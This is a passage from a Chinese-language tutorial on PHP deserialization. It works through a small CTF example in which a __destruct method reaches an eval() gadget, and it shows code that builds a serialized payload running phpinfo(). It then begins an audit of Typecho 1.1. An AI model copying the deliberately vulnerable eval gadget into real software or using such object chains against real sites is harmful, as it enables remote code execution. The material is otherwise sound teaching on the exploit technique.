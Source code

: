 
**0x02 简单的一道题**

下面我改了写一道简单的 CTF，看看怎么利用它。

```
<?php
class foo1{
    public $varr;
    function \_\_destruct(){
        $this->varr->evaltest();
    }
}
class foo2{
    public $str;
    function evaltest(){
        eval($this->str);
    }
}
?>

```

我们看到在 foo2 中**`evaltest()`函数**中存在 eval，而 foo1 中调用了**函数`evaltest()`**，我们就想可不可以让 foo1 调用 foo2 中的**`evaltest()`函数**顺边还把它的**`$str`**中的值改写了。

```
<?php
class foo1{
    public $varr;
    function \_\_construct(){
        $this->varr = new foo2();
    }
}
class foo2{
    public $str;
    function \_\_construct(){
        $this->str = 'phpinfo();';
  }
}
$obj = new foo1();
echo serialize($obj);
?>

```

我们把**`$varr`变量**赋值为**`new foo2()`** 然后它再去调用 **`evaltest()`函数** 然后我们把**`$str`**的值换成 我们想执行的命令。

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqdMpF2uCUNnL2tZf8CrQrOmo12rVYdw1ZyI5MJyn6Daxc2gBfHT1ia0gt4jMfSibuFribhVAn2uPDnlQ/640?wx_fmt=png)

### **0x03 实例审计**

找了半天源码我觉得最有意义的，审计的最多的一次反序列化当属 Typecho1.1 版本的漏洞了。可能看起来有点吃力我尽量分析的详细一点。

来到文件 **`install.php`**
